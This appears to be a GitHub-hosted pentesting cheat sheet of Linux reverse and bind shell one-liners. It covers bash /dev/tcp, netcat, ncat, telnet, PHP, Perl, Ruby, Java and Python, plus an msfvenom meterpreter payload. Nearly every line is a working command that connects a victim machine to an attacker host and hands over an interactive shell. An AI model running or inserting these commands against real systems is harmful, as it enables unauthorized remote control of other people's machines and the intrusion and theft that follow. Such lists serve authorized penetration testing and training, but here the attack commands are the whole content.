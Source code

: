 # Linux

## Spawn a Shell Without Knowing which Language

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

## Binary

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## Bash

```bash
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PHP

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat

### **Bind Shell**

```bash
nc -nvlp 5555 -e /bin/bash #(victim)
nc 192.168.1.101 5555 #(attacker)
```

### **Reverse Shell**

```bash
nc -nlvp 5555 #(attacker)
nc 192.168.1.101 5555 -e /bin/bash #(victim)
```

### **With -e Flag**

```bash
nc -e /bin/sh ATTACKING-IP 80 #victim?
/bin/sh | nc ATTACKING-IP 80 #attacker?
```

### **Without -e Flag**

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### Another Good Resource

* [Netcat Reverse Shell from O'Reilly](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/b76e6441-5999-45e4-949e-bd332cb21cce.xhtml)

## Ncat (Modern Version of Netcat)

### **Bind**

```bash
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl #victim?
ncat -v 192.168.1.103 5555 --ssl #attacker?
```

### Telnet

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p #victim?
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443 #attacker?
```

### **Perl**

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **Ruby**

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Java**

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
